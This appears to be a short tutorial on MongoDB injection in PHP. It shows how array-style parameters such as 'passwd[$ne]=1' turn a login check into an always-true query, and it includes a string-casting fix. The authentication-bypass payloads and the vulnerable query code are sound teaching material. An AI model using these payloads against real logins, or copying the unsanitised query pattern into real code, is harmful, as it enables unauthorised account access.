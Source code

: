 ```php
// in nosql 
login.php?username=admin&passwd[$ne]=1      

// So the query becomes 
$collection->find(array(
    "username" => "admin",
    "passwd" => array("$ne" => 1)
));

// equivalent to 
mysql_query("SELECT * FROM collection WHERE username='admin' AND passwd !=1"); // always ture, unless the password == 1 ^^ 
```

```php
// simply preventing the attack
$collection->find(array(
    "username" => (string)$_GET['username'],
    "passwd" => (string)$_GET['passwd']
));
```











## MongoDB Injection in PHP

```php
$query = array("user" => $_POST["username"], "password" => $_POST["password"]);

// the array in php is just like a dict in python ^^ 

// and when i say query from now on, i mean the variable $query
```

If this query is then used to check login credentials, the attacker can abuse `PHP’s built-in associative array processing` to inject a MongoDB query that always returns true and bypass the authentication process. This may be as simple as sending the following POST request:

```php
username[$ne]=1&password[$ne]=1
```

PHP will translate this into an array of arrays:

```php
array("username" => array("$ne" => 1), "password" => array("$ne" => 1));
```

When sent as a MongoDB query to a user store, this will find all users where the user name and password are not equal to 1, which is highly likely to be true and may allow the attacker to bypass authentication.
